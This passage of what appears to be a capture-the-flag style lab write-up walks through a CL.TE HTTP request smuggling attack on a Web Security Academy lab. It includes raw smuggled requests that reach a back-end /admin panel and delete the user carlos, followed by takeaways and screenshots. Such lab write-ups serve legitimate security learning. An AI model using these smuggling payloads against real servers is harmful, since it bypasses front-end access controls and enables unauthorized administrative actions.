   ```sh

   GET /admin HTTP/1.1
   Host: localhost
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 10

   x=
   ```
7. Observe that you can now access the admin panel.
8. Using the previous response as a reference, change the smuggled request URL to delete carlos:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 139
   Transfer-Encoding: chunked

   0

   GET /admin/delete?username=carlos HTTP/1.1
   Host: localhost
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 10

   x=
   ```

## 📖 Key Takeaways
- **CL.TE vulnerability**: Front-end uses Content-Length, back-end uses Transfer-Encoding.
- **Front-end filters** can be bypassed by smuggling requests directly to the back-end.
- Avoid duplicate header errors by **pushing the second request’s headers into the smuggled body**.
- Always set `Host: localhost` when the back-end restricts access to certain hosts.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/480e34ad-8613-4b96-8344-ac7bd471f797" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/908c0f01-cebf-466b-9d65-7332730fdcb6" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/73cf3215-2030-41e0-b94b-4b5244569c9e" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/0e1d6586-b620-40a2-94b6-1efed53adcc8" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/acf136f0-da24-48f3-8280-8dc586bd5faf" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/3eacef8f-77fe-4a84-9c0a-52362839b966" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/398d3cd3-4761-4514-b67d-6f476e414734" />
